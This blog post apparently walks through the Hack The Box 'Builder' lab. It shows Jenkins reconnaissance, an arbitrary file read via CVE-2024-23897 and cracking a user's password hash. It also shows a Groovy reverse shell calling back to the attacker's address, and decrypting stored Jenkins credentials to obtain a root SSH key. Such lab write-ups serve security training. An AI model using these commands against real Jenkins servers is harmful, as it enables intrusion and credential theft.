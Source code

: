 ```yaml
---
layout: post
title: HTB - builder
date: 2025-03-04 18:42 -0400
---
```


{{ 'builder' | machine_img }}

# jenkins
## nmap
```bash
~/workspace/projects/htb/builder » sudo nmap -p8080,22 -sC -sV $(cat ip.txt) --min-rate 1024
Starting Nmap 7.93 ( https://nmap.org ) at 2025-02-14 16:25 -04
Nmap scan report for builder.htb (10.10.11.10)
Host is up (0.24s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3eea454bc5d16d6fe2d4d13b0a3da94f (ECDSA)
|_  256 64cc75de4ae6a5b473eb3f1bcfb4e394 (ED25519)
8080/tcp open  http    Jetty 10.0.18
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Jetty(10.0.18)
|_http-title: Dashboard [Jenkins]
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.47 seconds
```

## robots.txt
nothing

## subdomain bruteforce
nothing

## builder.htb
- Running jenkins version 2.441

![img](/assets/img/builder1.png)

- Vulnerable to [CVE-2024-23987](https://github.com/h4x0r-dz/CVE-2024-23897)
  - connect-node subcommand gives a full file read
  - help gives a partial file read

using the [jenkins docker image](https://hub.docker.com/layers/jenkins/jenkins/2.441/images/sha256-01e66c77a577d9c2b09e2e76ed6ef2508d341dc8fa713a272e351e113818d857) as reference we can find:
- default installation at `/var/jenkins_home`
- interesting files:
  - `/var/jenkins_home/users/users.xml`
    - has a list of all users
        - `users/jennifer_12108429903186576833/config.xml`
        - has user password hash
            - `$2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQJeN/L4l1a`
  - `/var/jenkins_home/users/credentials.xml`
    - has all the credentials in encrypted form

cracking the hash gives the creds
- `jennifer:princess`

From here there are a lot of options.
I used jenkings cli to get a shell using groovy:

![img](/assets/img/builder2.png)

```bash
» java -jar jenkins-cli.jar -auth jennifer:princess -s http://builder.htb:8080/ groovysh
Groovy Shell (2.4.21, JVM: 17.0.9)
Type ':help' or ':h' for help.
-------------------------------------------------------------------------------
groovy:000> ['/bin/bash', '-c', 'bash -i >& /dev/tcp/10.10.14.37/4444 0>&1'].execute()
```

user flag:

```bash
jenkins@0f52c222a4cc:/$ cat ~/user.txt
cat ~/user.txt
64efe***************************
```

# root 1
`/.dockerenv` exists so probably running inside docker container:

Linpeas shows nothing interesting, probably a true jenkins challenge.

We can use pipelines with the ssh plugin to ssh to the host and get the root flag.

![img](/assets/img/builder3.png)
![img](/assets/img/builder5.png)

# root 2
A second way of solving this is by looking at the secret on /var/jenkins_home/credentials.xml and using groovy to [decrypt it](https://devops.stackexchange.com/questions/2191/how-to-decrypt-jenkins-passwords-from-credentials-xml):
```bash
Groovy Shell (2.4.21, JVM: 17.0.9)
Type ':help' or ':h' for help.
-------------------------------------------------------------------------------
groovy:000> println(hudson.util.Secret.decrypt("{secret}"))
-----BEGIN OPENSSH PRIVATE KEY-----
...
-----END OPENSSH PRIVATE KEY-----
```
then just `ssh -i <PRIV KEY> root@172.17.0.1`

```bash
root@builder:~# cat /root/root.txt
76811***************************
```
